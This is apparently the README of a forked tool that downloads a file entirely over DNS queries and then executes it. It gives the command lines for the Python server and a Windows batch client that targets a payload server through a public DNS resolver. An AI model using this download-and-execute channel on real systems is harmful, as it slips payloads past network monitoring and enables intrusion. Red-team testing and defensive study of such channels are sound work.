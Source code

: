 ## Purpose

Use only DNS queries to download a file, and then execute it.

## Usage

On the server hosting the file (tested with python2):

**sudo python server.py -f /path/to/file**

On the Windows client with batch script:

**client\client_batch\runme.bat <payloadserver> <fileparts> <public dns server>**

Example: *client\client_batch\runme.bat payloadserver.yourdomain.com 42 8.8.8.8*

Original author:

http://breenmachine.blogspot.com/2014/09/transfer-file-over-dns-in-windows-with.html

https://github.com/breenmachine/dnsftp

Forked and modified by:

Daniel Vinakovsky
